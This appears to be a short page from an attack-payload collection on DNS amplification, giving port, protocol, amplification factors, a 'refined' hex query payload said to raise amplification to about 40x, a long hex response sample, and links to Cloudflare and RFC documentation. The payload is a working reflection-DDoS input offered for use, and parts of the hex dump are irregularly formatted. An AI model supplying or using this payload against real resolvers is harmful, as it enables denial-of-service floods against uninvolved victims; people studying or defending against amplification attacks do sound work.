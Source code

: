 # DNS-Amplification

## Port: 53

## Proto: UDP

## Amplification factor: 10-30x

### Refined payload
- From 44 Data Byte to 500 Data Byte
- Amplification factor increased to ~40x
<pre>C4\75\01\00\00\01\00\00\00\00\00\01\00\00\FF\00\01\00\00\29\23\28\00\00\00\00\00\00\00\00\00\00\00</pre>

### Example response

<pre>C4\75\81\8000\01\00\0E\00\00\00\01\00\00\FF\00\01\00\00\0200\01\00\00\23\AF\00\14\01\6C\0C\72\6F\6F\74\2D73\65\72\76\65\72\73\03\6E\65\74\00\00\00\02\0001\00\00\23\AF\00\04\01\6B\C0\1E\00\00\02\00\0100\00\23\AF\00\04\01\67\C0\1E\00\00\02\00\01\0000\23\AF\00\04\01\69\C0\1E\00\00\02\00\01\00\0023\AF\00\04\01\6A\C0\1E\00\00\02\00\01\00\00\23AF\00\04\01\66\C0\1E\00\00\02\00\01\00\0023\AF00\04\01\62\C0\1E\00\00\02\00\01\00\00\23\AF\0004\01\61\C0\1E\00\00\02\00\01\00\00\23\AF\00\0401\68\C0\1E\00\00\02\00\01\00\00\23\AF\00\04\016D\C0\1E\00\00\02\00\01\00\00\23\AF\00\04\01\63C0\1E\00\00\02\00\01\00\00\23\AF\00\04\01\64\C01E\00\00\02\00\01\00\00\23\AF\00\04\01\65\C0\1E00\00\2E\00\01\00\00\23\AF\01\13\00\02\08\00\0007\E9\00\68\54\EA\D0\68\43\B9\40\CF\9C\00\22\5811\A8\0F\4D\30\FF\1C\42\2F\86\56\48\C1\45\C9\2A6D\85\D4\03\EE\CF\17\FE\F5\60\31\5E\84\43\C5\8BBC\4F\8F\3D\5F\08\23\D0\A0\92\7B\75\2C\4F\8D\41A5\A0\94\F1\DC\0F\7E\2B\5E\B3\AB\B7\8C\AB\EC\67AA\9D\14\A2\22\88\EC\95\A1\B8\EB\F8\3C\5D\E1\D875\17\98\62\F3\16\EB\22\95\38\25\90\54\32\5A\DE2C\50\D3\9E\9F\23\4F\B9\B5\9A\24\08\8D\A1\8B\E084\44\4E\68\69\47\2D\7E\F8\18\03\0A\85\81\BB\B187\F5\11\8A\FD\5F\3A\2C\74\1D\56\90\26\E5\FC\9755\E5\88\3D\AA\0F\92\55\12\A1\6B\C0\AB\EE\B0\DBBD\A7\26\A0\31\C5\AA\99\44\38\7B\92\79\3B\A7\10CC\DB\C3\44\60\D1\CA\E1\BC\15\E7\1D\02\4A\A8\423D\E4\A8\28\63\D7\85\AB\E6\98\8E\E0\27\3D\DC\EF70\42\DE\8B\D7\04\AE\8D\3E\77\E6\79\78\7C\AE\F9A9\76\53\66\96\78\CC\BC\25\76\5B\A1\4D\B3\20\D4A\F3\95\7B\80\B6\1F\C6\CD\2D\B9\66\2D\A5\00\0029\04\D0\00\00\00\00\00\00\</pre>

### Documentation
- cloudflare : https://www.cloudflare.com/learning/ddos/dns-amplification-ddos-attack/
- RFC 9267: https://datatracker.ietf.org/doc/rfc9267/
- RFC 5358: https://datatracker.ietf.org/doc/html/rfc5358
